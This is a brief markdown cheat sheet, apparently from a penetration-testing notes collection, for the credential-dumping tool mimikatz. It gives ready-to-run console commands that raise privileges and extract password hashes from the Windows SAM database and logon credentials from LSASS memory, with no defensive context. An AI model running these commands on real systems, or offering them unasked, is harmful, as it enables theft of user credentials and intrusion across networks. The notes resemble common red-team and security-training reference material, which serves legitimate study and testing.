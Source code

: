 # mimikatz

Extract hashes from SAM

```shell-session
mimikatz # privilege::debug
mimikatz # token::elevate

mimikatz # lsadump::sam 
```

Extract hashes from LSASS

```shell-session
mimikatz # privilege::debug
mimikatz # token::elevate

mimikatz # sekurlsa::logonpasswords
```

